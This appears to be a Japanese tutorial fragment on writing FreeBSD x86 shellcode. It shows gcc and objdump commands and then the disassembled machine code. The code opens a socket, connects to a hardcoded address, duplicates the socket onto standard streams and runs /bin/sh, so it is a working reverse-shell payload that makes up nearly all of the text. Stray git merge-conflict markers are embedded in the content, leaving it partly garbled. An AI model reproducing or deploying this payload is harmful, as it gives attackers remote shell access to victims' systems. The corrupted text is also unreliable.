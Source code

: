 　アセンブラで書いて、マシン語に変換します。

\-\-\-\-\-  freebsd terminal
\# gcc shellcode.s \-o shellcode
\# objdump \-d shellcode | grep \<main\> \-A 42
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

080483c4 <main>:
 80483c4:        6a 61                        push   $0x61
 80483c6:        58                           pop    %eax
 80483c7:        99                           cltd   
 80483c8:        52                           push   %edx
 80483c9:        42                           inc    %edx
 80483ca:        52                           push   %edx
 80483cb:        42                           inc    %edx
 80483cc:        52                           push   %edx
 80483cd:        68 56 51 2d 15               push   $0x152d5156
 80483d2:        cd 80                        int    $0x80
 80483d4:        68 10 02 1e 61               push   $0x611e0210
 80483d9:        89 e1                        mov    %esp,%ecx
 80483db:        6a 10                        push   $0x10
 80483dd:        51                           push   %ecx
 80483de:        50                           push   %eax
 80483df:        51                           push   %ecx
 80483e0:        97                           xchg   %eax,%edi
 80483e1:        6a 62                        push   $0x62
 80483e3:        58                           pop    %eax
 80483e4:        cd 80                        int    $0x80

080483e6 <L1>:
 80483e6:        b0 5a                        mov    $0x5a,%al
 80483e8:        52                           push   %edx
 80483e9:        57                           push   %edi
 80483ea:        52                           push   %edx
 80483eb:        cd 80                        int    $0x80
 80483ed:        4a                           dec    %edx
 80483ee:        79 f6                        jns    80483e6 <L1>
 80483f0:        68 2f 73 68 00               push   $0x68732f
 80483f5:        68 2f 62 69 6e               push   $0x6e69622f
 80483fa:        89 e3                        mov    %esp,%ebx
 80483fc:        50                           push   %eax
 80483fd:        54                           push   %esp
 80483fe:        53                           push   %ebx
 80483ff:        53                           push   %ebx
 8048400:        b0 3b                        mov    $0x3b,%al
 8048402:        cd 80                        int    $0x80
 8048404:        41                           inc    %ecx
 8048405:        44                           inc    %esp
 8048406:        44                           inc    %esp
 8048407:        52                           push   %edx
<<<<<<< HEAD
-----
